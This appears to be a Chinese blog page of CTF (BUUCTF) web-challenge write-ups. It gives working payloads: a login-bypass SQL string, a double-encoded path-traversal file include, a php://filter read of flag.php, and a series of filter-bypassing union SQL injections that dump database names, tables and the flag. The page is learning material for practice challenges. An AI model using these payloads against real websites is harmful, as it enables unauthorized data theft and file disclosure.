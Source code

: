 ```yaml
---
title: BUUCTF-web刷题

---
```

> BUUCTF平台的web题，持续刷。

## [极客大挑战 2019]EasySQL

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659965485785-6b64d659-c5b2-4c84-a2d6-8adca00fb79f.png)

- 有登录框，第一联想到利用sql注入，直接尝试万能密码 `' or '1'='1`登录

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659965617560-a5ba0dd4-aa1f-42b2-858c-0228a48d5ff0.png)

## [HCTF 2018]WarmUp

- 一进去就只有一个滑稽脸，直接查看源码，得到source.php，进去得到源码

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659966780771-950e19e1-5821-4413-a295-95f5b8e4e69c.png)

- 源码：

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

> 1、代码审计，发现还有一个hint.php，进去后得到 `flag not here, and flag in ffffllllaaaagggg`，那也就是flag在ffffllllaaaagggg里，但是没有具体说明是在那个目录下，因此构造时候需要依次通过…/…/构造尝试，去查看到底是几层的根目录
>
> 2、代码审计，发现是白名单验证，文件包含只能包含source.php和hint.php
>
> 3、根据后面的if条件得知，file不能为空，必须为字符串，还要通过checkfile()函数的检查，才能包含。
>
> 4、其中检查共有三次，第三次要经过url解码
>
> 5、payload：`file=source.php%253f/../../../../../../ffffllllaaaagggg`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967349372-dd08f2da-cd70-4bf1-837d-72ae29d9a6b4.png)

## [极客大挑战 2019]Havefun

- 查看源码

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967412083-2a52fb54-ea7b-4b91-afcf-d13ac14f417b.png)

- 根据源码很容易得到payload：`?cat=dog`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967477695-b75a0926-7bd4-4aec-9fd6-dc9ceec4afa0.png)

## [ACTF2020 新生赛]Include

- 一上来直接给了一个tips超链接，然后进去得到

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967617876-e53455d1-be03-490a-9535-2b080959168d.png)

> 观察url发现有flag.php，结合题目判断这题是php伪协议
>
> payload：`?file=php://filter/read=convert.base64-encode/resource=flag.php`
>
> 把得到的base64字符串进行解码

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967946632-5f593b96-3985-40fc-b130-d6970949269d.png)

## [ACTF2020 新生赛]Exec

- 发现是一个ping的命令执行，测试一下其他命令是否也能执行，是成功的

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659968049937-11d102a4-aad2-4521-addc-2565f4365f77.png)

- 那就直接抓取flag

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659968097734-9507a5b1-d1c7-4c96-9799-28142ac652c8.png)

## [极客大挑战 2019]BabySQL

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660980135444-9e2c836c-0b7b-416a-bec3-448669307193.png)

- 尝试用admin登录失败

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660980292881-fe4cd226-1a20-4168-b380-81049dd174a2.png)

- 进行sql注入
- payload：`?username=1' order by 3&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660980630189-828aecb0-e231-480b-9afe-ae74878e637a.png)

- 可以看到order的or和by均被过滤掉了
- 尝试联合注入

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660980811662-e338fa89-2fa7-4dcf-aba6-7a04c76af288.png)

> 同样union和select也都被过滤掉了
>
> 利用双写绕过，发现有3个字段

- payload：`?username=' oorrder bbyy 4--+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660981906860-fa3011f9-ef66-4488-9a17-60d972a3fd6f.png)

- 回显位为第二个和第三个字段
- payload：`?username=' ununionion seselectlect 1,2,3--+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660982012073-e323a752-31ff-482b-8c78-bb5d7f3cd5d9.png)

- 查所有库
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(schema_name) frfromom infoorrmation_schema.schemata)--+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660983995572-138d1d45-29d6-4c8e-8214-3849ec5c205d.png)

- 查ctf库中的所有表
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='ctf') --+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660984181446-440ed3b8-df44-4bd8-bdf6-23ce262e07ee.png)

- 查Flag表中的所有字段
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_name='Flag') --+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660984384749-570e6518-f223-45f2-9cc9-5ee6d769ad2c.png)

- 查看flag字段内的内容
- paylaod：`?username=' ununionion seselectlect 1,2,group_concat(flag) frfromom ctf.Flag--+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660983468939-228328bb-4756-402f-884b-4a9cfd20a403.png)

